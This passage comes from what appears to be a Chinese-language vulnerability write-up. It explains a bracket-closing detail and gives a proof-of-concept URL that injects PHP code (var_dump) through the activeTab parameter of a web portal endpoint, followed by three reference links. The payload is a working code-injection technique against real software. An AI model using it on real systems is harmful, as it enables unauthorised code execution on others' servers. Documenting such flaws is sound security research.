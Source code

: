 但是需要注意到这边的dataBacks又用了一层array来包裹，所以在做括号闭合时，要多加一层括号，poc如下：

```php
/general/appbuilder/web/portal/gateway/more?activeTab=%e5'.var_dump(111)));/*&id=1&module=Zhidao
```

### 参考文章

<https://cloud.tencent.com/developer/article/2200049>

<https://worktile.com/kb/p/27611>

[https://mp.weixin.qq.com/s/nOQuqt\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt_mO0glY-KALc1Xiw)